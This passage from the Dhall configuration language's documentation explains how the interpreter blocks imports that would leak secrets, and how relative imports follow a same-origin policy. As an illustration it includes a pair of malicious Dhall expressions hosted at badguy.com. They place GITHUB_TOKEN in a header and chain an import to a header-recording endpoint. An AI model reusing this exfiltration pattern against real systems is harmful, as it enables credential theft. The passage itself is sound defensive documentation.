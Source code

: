 This means that if an attacker tried to steal your `GITHUB_TOKEN` by hosting the
following pair of malicious expressions:

```haskell
-- https://badguy.com/headers.dhall

[ { header = "Authorization", value = "token ${env:GITHUB_TOKEN as Text}" } ]
```

```haskell
-- https://badguy.com/pleaseImportMe.dhall

https://badguy.com/iRecordHeaders.dhall using https://example.com/headers.dhall
```

... then Dhall interpreter would reject any attempt to import
`https://badguy.com/pleaseImportMe.dhall` because this expression imported
from a web service indirectly requested access to your `GITHUB_TOKEN`
environment variable.

The Dhall language also does not allow "computed imports" (i.e. imports where
the import path depends on a value within the configuration file).  This
prevents information from being leaked through the requested path.  Similarly,
the language does not permit conditional importing of values.  The interpreter
is "strict" and always resolves imports regardless of whether the imported
expressions are used. Therefore, the set of imports your program requests never
changes and can't be used to leak program state.

## Same origin policy

Dhall expressions imported from a web service can reference other expressions
hosted at the same domain via relative imports.  For example, if you import an
expression from `example.com`, like this:

```haskell
https://example.com/list.dhall
```

... and the expression hosted there is:

```haskell
[ 1, 2, ./integer.dhall ]
```

... then the interpreter will expand `./integer.dhall` to
`https://example.com/integer.dhall`.  This feature allows expressions with
relative imports to continue to function when hosted from a web service.

However, this feature also requires support for automatically forwarding any
custom headers to expressions imported via relative imports.  For example, if
you import an expression from a private GitHub repository, like this:

```haskell
-- ./headers.dhall
[ { header = "Authorization", value = "token ${env:GITHUB_TOKEN as Text}" } ]
```

```haskell
https://raw.githubusercontent.com/yourCompany/somePrivateRepository/master/someExpression.dhall
    using ./headers.dhall
```


[danluu]: https://danluu.com/postmortem-lessons/
[django]: https://docs.djangoproject.com/en/2.0/topics/settings/
[hcl]: https://www.terraform.io/docs/configuration/syntax.html
[jsonnet]: http://jsonnet.org/
[json-schema]: http://json-schema.org/
[json-tutorial]: https://github.com/dhall-lang/dhall-lang/wiki/Getting-started:-Generate-JSON-or-YAML
[programmable]: https://github.com/dhall-lang/dhall-lang/wiki/Programmable-configuration-files
[sass]: http://sass-lang.com/
[sbt]: https://www.scala-sbt.org/
[webpack]: https://webpack.js.org/configuration/configuration-languages/
[total]: https://en.wikipedia.org/wiki/Total_functional_programming
[xss]: https://en.wikipedia.org/wiki/Cross-site_scripting
